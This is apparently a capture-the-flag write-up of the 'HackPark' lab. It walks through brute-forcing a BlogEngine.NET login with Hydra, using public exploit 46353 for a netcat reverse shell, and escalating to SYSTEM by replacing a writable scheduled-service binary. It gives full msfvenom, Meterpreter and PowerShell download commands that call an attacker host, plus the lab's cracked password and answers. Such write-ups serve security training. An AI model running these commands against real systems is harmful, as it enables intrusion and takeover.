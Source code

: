 # HackPark

### **Tasks**:

1. **Deploy the vulnerable Windows machine**:
   1. Deploy the machine do usual nmap scan with `nmap --script=vuln -T5 -sV ip` ,port 80,3389 open. Visit ip in browser , do reverse image search of image displayed and submit answer.
2. **Using Hydra to brute-force a login**:
   1. Go to login page , enter dummy username and password and send request to repeater in burp.
   2. Attack login page using `hydra hydra -l admin -P /usr/share/wordlists/rockyou.txt ip http-post-form "PATH_TO_LOGIN:POSTDATA REPLACE USERNAME/PASSWORD WITH ^USER^/^PASS^:STRING IN FAILED LOGIN PAGE"` - 1qaz2wsx
3. **Compromise the machine**:
   1. Login using password cracked above, there is about page in admin which displays BlogEngine.NET v3.3.6.0 is used, Use searchsploit for exploits.
   2. `searchsploit blogengine 3.3.6 remote` - Get RCE vulnerability id and run `searchsploit -x 46353` to get CVE details. Copy the exploit code to root directory `cp "/root/Desktop/Additional Tools/searchsploit/exploits/aspx/webapps/46353.cs" .` and change attacker ip and port in the script.
   3. Go to create new post, open file manager icon and upload the script after renaming it to PostView.aspx as per the information and publish the post.
   4. Start netcat listener in attacker machine port 4445 and open http://ip/?theme=../../App\_Data/files in browser to get shell in netcat session.
4. **Windows Privilege Escalation**:
   1. Start metasploit listener using msfconsole `use /exploit/multi/handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST ATTACKERIP`, `set LPORT ATTACKERPORT` & `run`
   2. Generate payload for windows using `msfvenom - msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKERIP LPORT=4446 -e x86/shikata_ga_nai -f exe -o shell.exe` and start python http server in attacker machine , upload the shell using `powershell -c wget "http://ATTACKERIP:8080/shell.exe" -outfile "shell.exe"` in victim machine and run `shell.exe` in victim machine to get meterpreter session.
   3. upload [winpeas.exe](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe) using meterpreter shell , `shell` to get cmd, `winpeas.exe servicesinfo` to know if we could exploit any services - WindowsScheduler, File Permissions: Everyone \[WriteData/CreateFiles], WService.exe is service binary we need to exploit but it gives error when submitted , Go to event logs(hint) `cd "C:\Program Files (x86)\SystemScheduler\Events"` and `type 20198415519.INI_LOG.txt` - Message.exe is the answer.
   4. Generate another malicious exe with name Message.exe and start another meterpreter listener at 4447. `upload Message.exe` to C:\Program Files (x86)\SystemScheduler - You will get system shell when Message.exe is run by WindowsScheduler service next time.
   5. Run `shell` , `type C:\Users\jeff\Desktop\user.txt`, `type C:\Users\Administrator\Desktop\root.txt` to get cmd, user and root flag & submit !!!
5. **Privilege Escalation Without Metasploit**:
   1. Instead of meterpreter listener we can use netcat as listener and set payload in msfvenom to windows/shell\_reverse\_tcp.
   2. You can host winpeas.exe using python and download into victim machine or download binary/bat from internet directly using powershell and wget and execute winpeas .
